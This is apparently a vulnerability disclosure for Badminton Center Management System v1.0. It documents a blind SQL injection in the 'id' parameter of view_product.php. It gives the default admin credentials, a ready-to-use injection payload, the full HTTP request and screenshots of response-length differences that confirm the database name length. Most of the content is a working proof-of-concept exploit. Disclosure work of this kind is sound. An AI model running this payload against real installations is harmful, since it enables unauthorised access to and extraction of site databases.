 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: bcms/admin/products/view_product.php?id=

Vulnerability location: /bcms/admin/products/view_product.php?id=,id

[+] Payload: /bcms/admin/products/view_product.php?id=5%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /bcms/admin/products/view_product.php?id=5%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 847
![image](https://user-images.githubusercontent.com/54017627/170621038-ca5be1b1-51d3-4a02-a0c5-20247efc0903.png)

![image](https://user-images.githubusercontent.com/54017627/170620919-afe2eb47-846f-405f-910b-eec2f66ea03b.png)

When length (database ()) = 7, Content-Length: 725
![image](https://user-images.githubusercontent.com/54017627/170621004-78b6b672-28c2-4c2d-b8d4-ff149f9842cb.png)

![image](https://user-images.githubusercontent.com/54017627/170620903-d521b4da-1f0d-4ec8-8371-05ef55d3ac4e.png)
